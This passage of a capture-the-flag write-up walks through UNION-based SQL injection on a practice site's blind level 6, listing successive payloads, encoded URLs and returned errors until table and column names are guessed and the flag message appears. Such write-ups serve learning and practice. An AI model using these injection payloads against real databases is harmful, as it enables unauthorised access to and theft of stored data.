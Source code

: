 + Ok let's go guessing job:  
+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4 FROM teacher--`  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4%20FROM%20teacher--`
> Table 'my_zixem.teacher' doesn't exist

+ Typo?  
+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT 1,2,3,4 FROM teachers--`  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%201,2,3,4%20FROM%20teachers--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4

+ As we expected. Now guessing until we can grab all value of id=10:  
+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teachers,teacher_age,price FROM teachers WHERE id=10--`  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teachers,teacher_age,price%20FROM%20teachers%20WHERE%20id=10--`
> Unknown column 'teachers' in 'field list'

+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teacher,teacher_age,price FROM teachers WHERE id=10--`  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teacher,teacher_age,price%20FROM%20teachers%20WHERE%20id=10--`
> - Serial number of teacher:  1
> - Teacher: ........................2
> - Age:..............3
> - Price per 1 leeson: .....................4

+ ***PAYLOAD***: `10 AND 1=2 UNION SELECT id,teacher,teacher_age,price FROM teachers WHERE id=11--`  
##### Result: #####  
+ `http://www.zixem.altervista.org/SQLi/blind_lvl6.php?serial=10%20AND%201=2%20UNION%20SELECT%20id,teacher,teacher_age,price%20FROM%20teachers%20WHERE%20id=11--`
> - **Serial number of teacher:**  11
> - **Teacher:** ........................Nice One!
> - **Age:**..............You are pro blinder
> - **Price per 1 leeson:** .....................Congratz

**Bazinga!**  
###### END - Back to [Reference Tables](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#reference-table) ######

===========================================================================================================  

## [Level 7](https://github.com/eblue3/CTF/blob/master/Zixem/SQLi/SQLi.md#level-7)
Start:  
[https://zixem.altervista.org/SQLi/level7.php?id=1](https://zixem.altervista.org/SQLi/level7.php?id=1)  
> - **Age:** 30
> - **Cool rating:** 10
